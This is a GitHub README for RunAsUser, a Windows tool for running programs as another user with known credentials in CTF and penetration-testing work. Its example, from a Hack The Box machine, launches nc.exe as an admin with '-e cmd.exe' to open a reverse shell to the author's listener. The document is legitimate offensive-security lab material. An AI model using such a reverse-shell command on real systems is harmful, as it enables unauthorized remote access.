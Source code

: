 # RunAsUser

**Advisory**
All the binaries/scripts/code of RunAsUser should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it on your own networks and/or with the network owner's permission.
* * *

**Binary already compiled in Releases if you want to use that.**
* * *

**Whats the purpose?**

RunAsUser was designed to make it easy to execute programs on Windows as another user. In CTF exercises you may come across credentials for another user. Unlike Linux there isn't the functionality to "su" to switch user.

There are ways to already do this with PowerShell. However I have found that in some CTF exercises you may be presented with limited or no PowerShell functionality. CMD also has the ability to execute programs as another user but again I have experienced problems trying to use that.

I have used this in a few boxes now and found it very useful. In fact, I made this application because I faced a very specific issue and other solutions wouldn't work.

It is a quick and dirty tool but does the job. I may come back to it and update it at some point.

**How to run**

So an example machine you can use this on is - HTB JSON.

Found the credentials for the admin user. I had issues trying to run a PowerShell terminal from what I remember, so I used this. I know I could have done this particular box lots of other ways but on other machines you may not be so fortunate and it was a good excuse to use this tool again.

First I uploaded RunAsUser.exe and then executed the below command.

```
RunAsUser.exe -u superadmin -p funnyhtb -f c:\users\public\nc.exe -a '10.10.14.12 9001 -e cmd.exe'
```

This command then executed `nc.exe` as the `superadmin` user and it connected back to my listener.

To view the help, simply run the tool with either `-h` or `--help`.

You may also just run the tool and you will be prompted at each step for the arguments you wish to supply.

**Edit**

I have updated this README to show an example of where "runas" does not work and "RunAsUser" does work. I created this tool for this exact reason. I was on a machine and had credentials and my initial thought was runas, however this would not work and kept skipping over the password prompt. I am aware there are other solutions to do the same thing, but I enjoyed making this quick tool and thought I would share it.

![](RunAsUser.gif)

